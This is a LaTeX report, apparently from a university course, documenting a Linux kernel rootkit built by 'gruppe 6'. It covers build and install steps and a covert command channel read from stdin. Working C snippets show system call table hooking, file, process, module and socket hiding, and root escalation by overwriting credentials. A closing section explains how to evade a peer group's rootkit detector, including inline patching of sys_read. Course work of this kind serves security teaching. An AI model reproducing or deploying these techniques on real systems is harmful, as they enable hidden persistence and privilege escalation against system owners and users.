\documentclass[10pt, letterpaper]{article}
\usepackage [english]{babel}
\usepackage{enumitem}
\usepackage{geometry}
\usepackage{color}
\usepackage{tikz}
\usepackage{listings}
\usetikzlibrary{snakes}
\usetikzlibrary{patterns}
\usepackage[loose]{subfigure}
\usepackage[pdfborder={0 0 0}]{hyperref}

\newcommand{\todo}[1]{}%{\textcolor{red}{TODO: #1}}

\geometry{margin=2.5cm}

\title{Rootkit of gruppe 6}
\author{Roman Karlstetter \and Philipp M\"uller}
\date{\today}

\begin{document}

\maketitle

\section{Overview}

This rootkit implements several functions, that can -- independently of each other -- be turned on and off. They are outlined here:

\begin{description}
\item [File hiding] It is possible to prevent some files to be shown. Files beginning with a certain prefix are hidden from e.g. \texttt{ls}. However, these files stay accessible.
\item [Process hiding] It is possible to hide certain processes by their ID.
\item [Module hiding] It is possible to hide the rootkit module from \texttt{lsmod}.
\item [Socket hiding] The rootkit can hide certain TCP and UDP sockets from \texttt{netstat} and \texttt{ss}.
\item [Privilege escalation] You can acquire the privileges to act as root.
\item [Covert communication] All this functionality is turned on and off via a covert communication channel.
\end{description}

\section{Building, installing \& using the rootkit}

\subsection{Building the module}

You need to have a working environment for developing kernel modules. When this is the case, \texttt{cd} to the directory with the sources and execute \texttt{make} to build the module. This will create a file called \texttt{cool\_mod.ko}, which contains the compiled module.

\subsection{Loading the module}

The module is loaded like (probably) most other modules: using \texttt{insmod}. That is, you can just do the following:

\begin{verbatim}
root@machine:/path/to/rootkit# insmod cool_mod.ko
\end{verbatim}

Then, the module can be used. The module itself does quite a bit of output for the user, which can be used using \texttt{dmesg}. If you try \texttt{dmesg} directly after loading, somewhere at the end of the output you should see a line like this:

\begin{verbatim}
[   108.693480]  This is the kernel module of gruppe 6.
\end{verbatim}

\subsection{Using the module}

\label{sec:using-the-module}

Once the module is loaded, it can receive commands as you type them into a shell. Every command starts with the prefix \texttt{\#\#\# } (three hashes, followed by one space).

Once this sequence of characters is entered, the rootkit expects the actual command. After the actual command, there might be a parameter (separated by a space from the command). Thus, the general format for commands is simply as follows:
\\~
\\~
\texttt{\#\#\#\textvisiblespace command\textvisiblespace params\textvisiblespace
}

\begin{description}[font=\ttfamily]
\item[hideproc] This command expects a parameter representing the process ID of the process to be hidden. Hides the corresponding process. 
\item[unhideproc] This command expects a parameter representing the process ID of the process to be unhidden. Unhides the corresponding process. 
\item[hidemodule] Prevents the module from being shown when executing \texttt{lsmod}. Note that when the module is hidden, it can not be unloaded.
\item[unhidemodule] Unhides the module, i.e. \texttt{lsmod} is finding the module.
\item[hidetcp] Hides a TCP socket from \texttt{netstat} and \texttt{ss}. Expects one argument: The port of the socket to be hidden.
\item[hideudp] Hides a UDP socket from \texttt{netstat} and \texttt{ss}. Expects one argument: The port of the socket to be hidden. 
\item[unhidetcp] Disables socket hiding for a TCP socket. Expects the port as argument.
\item[unhideudp] Disables socket hiding for a UDP socket. Expects the port as argument. 
\item[hidefiles] Hides files, whose filename is starting with \texttt{rootkit\_}, i.e. these files are ``invisible'' to \texttt{ls}, but can still be accessed. 
\item[unhidefiles] Disables file hiding. I.e. basically all files are shown then (except those that are hidden by another rootkit ;) ).
\item[escalate] This command is most useful when invoked by a non-root-user. Once the module is loaded, \emph{any} user can just type \texttt{\#\#\# escalate} and obtains \texttt{root}-rights.
\end{description}

As an example, consider how to hide TCP socket 1234:
\\~
\\~
\texttt{root@machine:/path/to/something\# \#\#\#\textvisiblespace hidetcp\textvisiblespace 1234\textvisiblespace}\\~

Note that you don't need to confirm the command by pressing return. The rootkit recognizes the command and the parameter after you entered a whitespace character.

\autoref{tab:rootkit-commands} gives a quick overview over all available commands for the rootkit.

\begin{table}[th]
\centering
\begin{tabular}{lcl}
Command & Parameter & Example \\
\hline
\texttt{hideproc} & PID & \texttt{\#\#\#\textvisiblespace hideproc\textvisiblespace 1234\textvisiblespace } \\
\texttt{unhideproc} & PID & \texttt{\#\#\#\textvisiblespace unhideproc\textvisiblespace 1234\textvisiblespace } \\
\texttt{hidemodule} & - & \texttt{\#\#\#\textvisiblespace hidemodule\textvisiblespace } \\
\texttt{unhidemodule} & - & \texttt{\#\#\#\textvisiblespace unhidemodule\textvisiblespace } \\
\texttt{hidetcp} & Port & \texttt{\#\#\#\textvisiblespace hidetcp\textvisiblespace 1122\textvisiblespace } \\
\texttt{hideudp} & Port & \texttt{\#\#\#\textvisiblespace hideudp\textvisiblespace 3344\textvisiblespace } \\
\texttt{unhidetcp} & Port & \texttt{\#\#\#\textvisiblespace unhidetcp\textvisiblespace 1122\textvisiblespace } \\
\texttt{unhideudp} & Port & \texttt{\#\#\#\textvisiblespace unhideudp\textvisiblespace 3344\textvisiblespace } \\
\texttt{hidefiles} & - & \texttt{\#\#\#\textvisiblespace hidefiles\textvisiblespace } \\
\texttt{unhidefiles} & - & \texttt{\#\#\#\textvisiblespace unhidefiles\textvisiblespace } \\
\texttt{escalate} & -  & \texttt{\#\#\#\textvisiblespace escalate\textvisiblespace } \\
\end{tabular}
\caption{Commands for the rootkit}
\label{tab:rootkit-commands}
\end{table}

\section{Implementation Details -- Initial Version}

This section first gives an overview on how the module is designed and then describes the technical details of each individual part of the module. 

Note that this section deals with our initial implementations. After we got the rootkit detector of gruppe 5, we revised some functions.

\subsection{General Design}

We have split up things in "submodules" (each with its own header and implementation file), so
that our we have some nice modular architecture. This makes our module easily extendable. Everything gets glued together in \texttt{mod.ko}.

The \texttt{hook\_read} submodule reads from stdin and feeds this information into the \linebreak \texttt{covert\_communication} submodule. In addition to this, we specifiy which commands correspond to which functions of the other submodules. This is done by the \texttt{add\_command}-function of the  \texttt{covert\_communication} submodule. When a command (and its parameter) is recognized, the corresponding function gets called.

 \begin{figure}[ht]
  \centering
    
\begin{tikzpicture}
\tikzstyle{myNode} =
[
	shape			= rectangle,		% shape
	rounded corners	= 0.1cm,			% roundness of the corners
%	minimum height	= 0cm,				% | minimum size
%	minimum width	= 0cm,				% |
%	line width		= 0.05cm,			% thickness of the border
	draw			= black!50!black!50,	% colour of the border
	top color		= white,			% | filling colors
	bottom color	= gray!50!black!20,	% |
	font			= \bfseries,		% used font
	inner xsep		= 0.2cm,			% minimum distance btw text and borders along x dimension
	inner ysep		= 0.2cm				% minimum distance btw text and borders along y dimension
]
\node (mod) [myNode, bottom color = red!50!black!20] at (5,0) {mod.c};
\node (privilege) [myNode] at (0,2) {privilege\_escalation.c};
\node (modules) [myNode] at (3,3) {hide\_module.c};
\node (files) [myNode] at (5,2) {hide\_files.c};
\node (processes) [myNode] at (7,3) {hide\_processes.c};
\node (sockets) [myNode] at (9,2) {hide\_sockets.c};
\node (read) [myNode, bottom color = blue!50!black!20] at (9,0) {hook\_read.c};
\node (communication) [myNode, bottom color = blue!50!black!20] at (0,0) {covert\_communication.c};
\draw [->] (privilege) -- (mod);
\draw [->] (modules) .. controls +(0,-1) .. (mod);
\draw [->] (files) -- (mod);
\draw [->] (processes) .. controls +(0,-1) .. (mod);
\draw [->] (sockets) -- (mod);
\draw [->] (read) -- (mod);
\draw [->] (communication) -- (mod);
    \end{tikzpicture}
  
  \caption{The general design of the module. Everything get's glued together in mod.c, where you can easily specify commands which can be used to execute functions of one of the submodules.}
  \label{fig:module-decomposition}
\end{figure}
The file names should be self-explanatory, but we should mention some things explicitly.

The files \texttt{sysmap.h} and \texttt{sysmap.c} are generated automatically by the script \linebreak \texttt{create\_sysmap.sh}. This script scans the ``system map''\footnote{In our case, the system map resides at \texttt{/boot/System.map-2.32}. This system map needs not to exist, but luckily it is existent on our test machines.} of Linux. The system map is a file, where all kernel symbols are listed. All these pointers are collected and made usable to our code. The script prepends each found pointer with the prefix \texttt{ptr\_}. So, if you encounter a variable starting with this prefix, chances are good that it is something from the system map.

Note that all these pointers are of type \texttt{void*}, since we do not know their type a priori. They are later casted as needed.

\emph{Remark:} In the following, we present some code snippets. They are basically taken from our rootkit source code, but we shortened them a bit and describe just the crucial parts of them.

\subsection{``Hooking'' functions in general}

A very important aspect of a rootkit is hooking of functions. This means, we ``grab'' an original system function (which may be called by other programs!), and replace it by our own function. This way, everytime another program tries to call the original function, it automatically calls \emph{our} ``injected'' function. \autoref{fig:hooking-system-call} shows this mechanism as a schema.

Of course, the injected function should behave as if it was the original function, so that the other programs (and, thus, the user) do not recognize that we have manipulated the system function.

\begin{figure}[ht]
  \centering
  \subfigure[Before hooking. Pointer to the original \texttt{sys\_read} system call.]{
    
\begin{tikzpicture}
      \draw (0,0) rectangle (2,3);
      \node at (1,3) [above] {System call table};
      \draw (0,1) rectangle (2,1.5);
      \node (p) at (1,1) [above] {\texttt{0x15bf102a}};
      \node (f) [shape=rectangle, draw=black] at (4,2.5) {\texttt{sys\_read}};
      \node (hf) [draw opacity=0.5, fill opacity=0.5, shape=rectangle, draw=black] at (4,1) {\texttt{hooked\_read}};
      \draw [->] (2,1.25) .. controls +(1,0) and +(-1,0) .. (f.west);
    \end{tikzpicture}
  }
  \subfigure[After hooking. Pointer to \texttt{hooked\_read}, which itself can use \texttt{sys\_read}.]{
    
\begin{tikzpicture}
      \draw (0,0) rectangle (2,3);
      \node at (1,3) [above] {System call table};
      \draw (0,1) rectangle (2,1.5);
      \node (p) at (1,1) [above] {\texttt{0xab431d01}};
      \node (f) [shape=rectangle, draw=black] at (4,2.5) {\texttt{sys\_read}};
      \node (hf) [shape=rectangle, draw=black] at (4,1) {\texttt{hooked\_read}};
      \draw [->] (2,1.25) .. controls +(0.5,0) and +(-0.5,0) .. (hf.west);
      %%\draw [->, dashed] (hf.north) -- (f.south) node [right, midway, text width=3cm] {\texttt{hooked\_read} can use \texttt{sys\_read}};
      \draw [->, dashed] (hf.north) -- (f.south);
    \end{tikzpicture}
  }
  \caption{Hooking a system call function}
  \label{fig:hooking-system-call}
\end{figure}

So, how is this hooking done programmatically? Let us consider how we hook the \texttt{read} system call, for example. This is done by the following code snippet:

\begin{verbatim}
void hook_read(fun_void_charp_int cb){
    void** sys_call_table = (void *) ptr_sys_call_table;
    original_read = sys_call_table[__NR_read];
    make_page_writable((long unsigned int) ptr_sys_call_table);
    sys_call_table[__NR_read] = (void*) hooked_read;
    make_page_readonly((long unsigned int) ptr_sys_call_table);
}
\end{verbatim}

Let us consider this function line by line. First, we locate the system call table, which is basically just an array of pointers to system call functions. Afterwards, we retrieve the pointer to the original \texttt{read} system call and store it in  \texttt{original\_read}\footnote{\texttt{original\_read} is a function pointer of type \texttt{asmlinkage ssize\_t (*)(unsigned int, char \_\_user *, size\_t)}. This is a pointer to a function returning a value of type \texttt{size\_t} and taking three arguments, just like the original \texttt{read} system call declared in \href{http://lxr.linux.no/linux+v2.6.32/arch/x86/include/asm/syscalls.h}{\texttt{linux/syscalls.h}} in the Linux kernel.}. This is necessary for several reasons: First, we want to be able to restore the original call if we unload the module. Moreover, as we will see later, we delegate the work to the original \texttt{read} function and just do some manipulations beforehand.

Let us -- for now -- skip the next line and directly consider the following line from the above snippet:

\begin{verbatim}
    sys_call_table[__NR_read] = (void*) hooked_read;
\end{verbatim}

This line \emph{modifies} the system call table in such a way that if some program is issuing a system call to \texttt{read}, it will actually invoke our own function \texttt{hooked\_read}. The constant \texttt{\_\_NR\_read} is defined as a macro somewhere in the Linux kernel source code and denotes the position in the system call table, where the function pointer to the \texttt{read} system call is stored.

The above line is the most crucial one when it comes to system call hooking, since it actually sets the function pointer to our function.

So the only point left is what the functions \texttt{make\_page\_writable} and \texttt{make\_page\_readonly} are doing.

As it turns out, Linux 2.6 has some memory protection mechanism so that you can not modify certain memory sections (e.g. and in particular the system call table) at will. Instead, one has to first remove this write protection. This is exactly what \texttt{make\_page\_writable} does. It is defined in \texttt{global.c} as follows:

\begin{verbatim}
void make_page_writable(long unsigned int _addr){
    unsigned int dummy;
    pte_t *pageTableEntry = lookup_address(_addr, &dummy);
    pageTableEntry->pte |=  _PAGE_RW;
}
\end{verbatim}

That is, \texttt{make\_page\_writable} first retrieves the page table entry which contains a given address (\texttt{\_addr}). Afterwards, it allows this page to be written (by ORing with \texttt{\_PAGE\_RW}, wich is a macro defined in the linux kernel). \todo{Is this correct, what I'm writing here?}

Hooking functions is basically done in this way. Note that the functions we want to hook need not necessarily reside in the system call table, but can be at other locations as well. The mechanism of hooking, however, is equivalent.

However, as we will see later, there are other techniques to hook a system call (see \autoref{sec:hooking-read-2}).

\subsection{File Hiding}
\label{filehiding}

We hook \texttt{getdents64} (resp. \texttt{getdents}) to hide files beginning with the prefix \texttt{rootkit\_}. 
Therefore, we simply call the original \texttt{getdents}-function and iterate over the resulting
\texttt{dirent}s. As soon as we find an entry whose \texttt{d\_name} begins with \texttt{rootkit\_},
we ``erase'' it by moving the remaining part forward in memory. This process is shown in \autoref{fig:filehiding}.


\begin{figure}[ht]
\centering

\begin{tikzpicture}
%% before
\foreach \x in {1,2} 
  \draw [draw=black] (\x*2,0) rectangle (\x*2+2,0.5);
\node at (5,0) [above] {\texttt{rootkit\_}};
\foreach \x in {3,4,5} 
  \draw [draw=black, fill opacity=0.1, fill=black] (\x*2,0) rectangle (\x*2+2,0.5);
\foreach \x in {1,3,4,5}
  \node at (\x*2 + 1, 0) [above] {\texttt{file\_\x}};
\draw (12, 0.5) -- (15, 0.5) [snake=snake, pattern = north east lines] -- (15, 0) [snake=none]-- (12,0) -- (12, 0.5);
\node at (13.5, 0) [above] {\texttt{0x123}};
\draw (12, 1)[above] node {Boundary before (original no. bytes)} [dashed, thick] -- (12, -0.5);
%% afterwards
\foreach \x in {1} 
  \draw [draw=black] (\x*2,-1) rectangle (\x*2+2,-1.5);
\foreach \x in {3,4,5} 
  \draw [draw=black, fill opacity=0.1, fill=black] (\x*2-2,-1) rectangle (\x*2,-1.5);
\foreach \x in {3,4,5}
  \node at (\x*2 - 1, -1.5) [above] {\texttt{file\_\x}};
\node at (3, -1.5) [above] {\texttt{file\_1}};
\node at (11, -1.5) [above] {\texttt{file\_5}};
\draw (10, -1) -- (15, -1) [snake=snake, pattern = north east lines] -- (15, -1.5) [snake=none]-- (10,-1.5) -- (10, -1);
\node at (13.5, -1.5) [above] {\texttt{0x123}};
\draw (10, -0.5) [dashed, thick] -- (10, -2) [below] node {Boundary afterwards (modified no. of bytes)};
%% arrows
\draw [->, draw=black, thick] (6,0) -- (4, -1);
\draw [->, draw=black, thick] (12,0) -- (10, -1);
\end{tikzpicture}
\caption{The file \texttt{rootkit\_} is overwritten by copying the remaining buffer forward. Note that the number of bytes returned are adjusted (indicated by boundaries).}
\label{fig:filehiding}
\end{figure}

Another implementation alternative would have been to manipulate the element preceeding the entry to be hidden, such that it appears to be longer and thus kind of shades the item beginning with \texttt{rootkit\_}. Each \texttt{dirent} has a member \texttt{d\_reclen}, which stores the length of the \texttt{dirent} itself. Thus, we also could manipulate \texttt{d\_reclen} accordingly. 

However, this alternative approach brings quite some overhead in code, because you need e.g. additional tests whether the element to be hidden is the first element (the hard case) or somewhere in the middle (that works quite well).

\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the specified processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}

As you can see, these kind of functions accept quite a bunch of arguments. But we need only one of them: \texttt{name} -- it holds a PID (formatted as a array of \texttt{char}s). 

All the other parameters are possibly passed to the original \texttt{filldir} function.

The function does essentially the following: It traverses the list, where we store the process IDs of the processes we want to hide. If it finds that the current PID is to be hidden, it just returns 0, indicating that the current call did not produce any output. This causes the callee just to ignore the corresponding process. If no such PID is found, it just delegates the work to \texttt{original\_proc\_filldir}, which then acts just like there was no interception at all.

Another way to hide processes is to remove the respective task from the hash table which is used for looking up the tasks and generating the entries in proc.

\subsection{Module Hiding}
\label{sec:module_hiding}

To hide the module, we 
\begin{itemize}
 \item remove it from the list of modules and
 \item hook the \texttt{readdir} operation of the sysfs.
\end{itemize}

The first point is pretty straightforward, once you have the pointer to the list of modules. The following line accomplishes this:

\begin{verbatim}
list_del(&(THIS_MODULE->list));
\end{verbatim}

This line relies on some macros defined in the Linux kernel sources: \texttt{list\_del} removes an item from a linked list and \texttt{THIS\_MODULE} is a pointer to a \texttt{struct module} representing the module it is invoked from. So, the line removes \emph{our} module from the list of modules.

To remove the module from \texttt{/sys/module}, you have to hook also create a \texttt{filldir}-function which gets called by the hooked readdir operation (for the \texttt{sys}-filesystem this time) and returns 0 when called with this module as parameter. This mechanism is similar to the one described in \autoref{sec:process-hiding}.


In order to be able to unload the module again, we have to make is visible, otherwise \texttt{rmmod} tells us that such a module is not loaded. So, to make it visible again, we have to insert it again into the list of modules. Fortunatly, our \texttt{sysmap.h} has an entry \texttt{ptr\_modules} which points exactly to the desired list. By calling 
\begin{verbatim}
list_add(&(THIS_MODULE->list), (struct list_head *) ptr_modules);
\end{verbatim}
the module gets inserted again and we can unload it with rmmod (additionally, we of course have to remove the hook for the \texttt{sys}-filesystem). 


\subsection{Socket Hiding}

Hiding sockets means that they are not displayed by neither \texttt{netstat} nor \texttt{ss}. \texttt{netstat} gets all its information through \texttt{/proc}, while \texttt{ss} gets the TCP-socket information through the NETLINK interface of the kernel (when this is available), the UDP information is also from \texttt{/proc}.

We implement socket hiding by hooking the \texttt{show}-operation of the \texttt{seq\_file} interface (only of tcp and udp socket-files in \texttt{/proc/net}, of course). Therefore we look at the port and the protocol of the passed \texttt{struct socket} and compare it with the socket to hide.

For TCP sockets displayed by \texttt{ss}, we hook the \texttt{socketcall} function and return an error code when it gets called with a special combination of parameters. This lets \texttt{ss} also use its fallback alternative, which is \texttt{/proc} as already described.

\subsection{Privilege Escalation}

Privilege escalation is done using a simple mechanism: We set the user id of the current process to 0 (which corresponds to user \texttt{root}). This is done by the following code snippet:

\begin{verbatim}
void escalate(void){
    struct cred *my_cred;
    my_cred = prepare_creds(); 
    my_cred->uid = my_cred->euid = my_cred->suid = my_cred->fsuid = 0;
    my_cred->gid = my_cred->egid = my_cred->sgid = my_cred->fsgid = 0;
    commit_creds(my_cred);
}
\end{verbatim}

The function \texttt{prepare\_creds} creates a copy of the current threads credentials (i.e. user id, etc). We work on this copy (stored in \texttt{my\_cred}), and -- after modifying it -- apply the changes using \texttt{commit\_cred}.

While one could think it would be more convenient to directly modify the task's credentials, this is explicitly discouraged in the linux source code\footnote{File \texttt{kernel/cred.c}}.

\subsection{Covert Communication}
We hook \texttt{sys\_read} and intercept all input from standard in. 

First, we try to match a magic activating command (this is the three hashes and a space, followed by one of the commands described in \autoref{sec:using-the-module}). After this command, we read until a whitespace occurs. After that, we analyze what has been entered and execute the corresponding command, if 

\begin{itemize}
 \item it is available and
 \item it does not expect an argument.
\end{itemize}

If it does expect an argument (this is always a number), we read again until a whitespace and call the function with the parsed number as argument.

\section{Gruppe 5's Rootkit Detector}
\label{sec:detectorofgruppe5}

We received a rootkit detector for our rootkit that detects three aspects of our rootkit. This section gives an overview about how detection works.

\begin{description}
\item[Hooked Read Function] As mentioned in \autoref{fig:hooking-system-call}, we hook \texttt{sys\_read} by changing the function pointer in the system call table. This, however, leaves suspicious traces, since a detector can simply extract the original adress from the \texttt{system.map} file. This is exactly what the detector of gruppe 5 does. However, for this to work correctly, the detector has to be prepared \textit{before} the rootkit gets loaded. Under the assumption that the rootkit is loaded before the detector (and that the detector cannot do any analysis or preparation thereof in a clean system), the rootkit could simply hook the \texttt{system.map} file such that the values in this file correspond to the actual situation when the rootkit is active.

Subsection \ref{sec:hooking-read-2} describes how we evade this detection.
\item[Hooked socketcall] In our initial version, we simply hooked the \texttt{sys\_socket} function\footnote{We actually hooked \texttt{socketcall}, because \texttt{sys\_socket} isn't accessible directly, but every call to \texttt{sys\_socket} is handled by the function \texttt{socketcall}.}, and simply checked whether the arguments to this function are the ones given by the program \texttt{ss}. If so, we would simply return -1, so that \texttt{ss} uses its fallback.

Thus, the rootkit detector simply does the following:

\begin{verbatim}
result = socket(AF_NETLINK, SOCK_RAW, NETLINK_INET_DIAG);
\end{verbatim}

Afterwards, they only have to check whether \texttt{result} is negative. If so, it indicates that our rootkit is present. Subsection \ref{sec:socket-hiding-evasion} describes how we can hide sockets from \texttt{ss} using another technique.

\item[Hidden Module] Two things were done to hide the module (see \autoref{sec:module_hiding}), the detector uses a weakness of the implementation used to remove the entry from the sysfs. Up to now, the rootkit just didn't show the corresponding entry in the \texttt{/sys/module} by overwriting the filldir function and using it in the hooked readdir function. However, the corresponding datastructures of \texttt{sysfs} were still present. What the detector now does is just the following: it iterates over the internal \texttt{sysfs\_dirent}s of the list of modules in the \texttt{sysfs}-datastructures and counts the number of modules in this list. The result is the correct number of currently loaded modules, including our rootkit. Then, it compares this number with the number of lines that a simple 
\begin{verbatim}
ls -1 /sys/module/
\end{verbatim}
produces, which is the current number - 1, as our module doesn't show up in this list. In \autoref{sec:module-hiding-evasion}, we describe what can be done to avoid detection this way (although you might already have a guess).

\end{description}

\section{Detection Evasion}
\label{sec:detection-evasion}

\subsection{Hooking \texttt{sys\_read} without changing the system call table}
\label{sec:hooking-read-2}

\subsubsection{Installing the hook}
\label{sec:hooking-read-install-hook}

This subsection describes how we manipulate the \texttt{read} system call without altering the function pointer in the system call table. While in the original version, we simple redirected the call from the system call table directly to our hooked function (as illustrated in \autoref{fig:hooking-system-call}). Now, we do it another way: We directly modify the code of the original read-system call that resides in memory.

To do so, we inject some custom instructions into the original machine code for the \texttt{read} system call. These injected instructions will cause the machine to jump to \emph{our} hooked function, even if we leave the system call table as it is. This principle is shown in \autoref{fig:read-inlinehook}.

\begin{figure}[ht]
  \centering
  \subfigure[Before hooking. Pointer to the original \texttt{sys\_read} system call. You see some machine instructions.]{
    
\begin{tikzpicture}
      \draw (0,-0.5) rectangle (2,2.5);
      \node at (1,2.5) [above] {System call table};
      \draw (0,1) rectangle (2,1.5);
      \node (p) at (1,1) [above] {\texttt{0xc10ae026}};
      \node at (5,2.3) [above] {Original \texttt{sys\_read}};
      \tikzstyle {memorycell} = [shape=rectangle, draw=black, minimum width=4cm, text width=4cm, minimum height=0.65cm];
      \node (f) [memorycell] at  (5,2) {\texttt{push \%esi}};
      \node (f1) [memorycell] at (5,1.35) {\texttt{mov \$0xfffffff7,\%esi}};
      \node (f3) [memorycell] at (5,0.7) {\texttt{[...]}};
      \node (hf) [memorycell, opacity=0.5] at (5,-.5) {\texttt{hooked\_read}};
      \draw [->] (2,1.25) .. controls +(.5,0) and +(-.5,0) .. (f.west);
    \end{tikzpicture}
  }
  \subfigure[After hooking. Syscall table stays untouched, but code of \texttt{sys\_read} is modified, so \texttt{sys\_read} itself redirects call to \texttt{hooked\_read}. Note that the address of the modified \texttt{sys\_read} is the same as the address for the original \texttt{sys\_read}]{
    
\begin{tikzpicture}
      \draw (0,-0.5) rectangle (2,2.5);
      \node at (1,2.5) [above] {System call table};
      \draw (0,1) rectangle (2,1.5);
      \node (p) at (1,1) [above] {\texttt{0xc10ae026}};
      \node at (5,2.3) [above] {Modified \texttt{sys\_read}};
      \tikzstyle {memorycell} = [shape=rectangle, draw=black, minimum width=4cm, text width=4cm, minimum height=0.65cm];
      \node (f) [memorycell] at  (5,2) {\texttt{jmp \$0xbadc0ded}};
      \node (f1) [memorycell] at (5,1.35) {\texttt{[...]}};
      \node (f3) [memorycell] at (5,0.7) {\texttt{[...]}};
      \node (hf) [memorycell] at (5,-.5) {\texttt{hooked\_read}};
      \draw [->] (2,1.25) .. controls +(.5,0) and +(-.5,0) .. (f.west);
      \draw [->, rounded corners, dashed] (f.east) -- +(0.5,0) |- (hf.east);
    \end{tikzpicture}
  }
  \caption{Inline-modification of the read-system call}
  \label{fig:read-inlinehook}
\end{figure}

To understand how this works, let us first consider some disassembly of the \texttt{sys\_read} function. We just want to have a look at the first some bytes\footnote{You can produce this output with the following:

\texttt{gdb /usr/src/linux-<version-number>/vmlinux}

\texttt{(gdb) disass sys\_read\ sys\_read+40}} of this function:

\begin{verbatim}
0xc10ae026:	push   %esi
0xc10ae027:	mov    $0xfffffff7,%esi
0xc10ae02c:	push   %ebx
0xc10ae02d:	sub    $0xc,%esp
\end{verbatim}

We don't need to examine what these instructions do exactly, but let us consider what we need to do in here to redirect the function call to somewhere else (namely to our \texttt{hooked\_read}).

\begin{verbatim}
0xc10ae026:	jmp    0xbadc0ded       ;jump to the function of the rootkit
0xc10ae02b:	[...]                   ;here we still have the original bytes
\end{verbatim}

